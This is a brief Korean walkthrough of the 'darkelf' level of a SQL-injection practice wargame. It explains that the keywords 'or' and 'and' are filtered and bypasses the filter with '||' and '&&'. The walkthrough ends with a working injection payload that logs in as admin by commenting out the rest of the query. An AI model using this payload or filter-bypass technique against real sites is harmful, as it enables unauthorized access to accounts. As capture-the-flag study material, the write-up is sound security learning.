 # darkelf

or 과 and가 필터링 되고 있다.   
<br/>

* or은 ||로 우회할 수 있다.
* and는 &&로 우회할 수 있다.
<br/>

![](1.PNG)
```
?pw=aa' || id='admin'%23
```

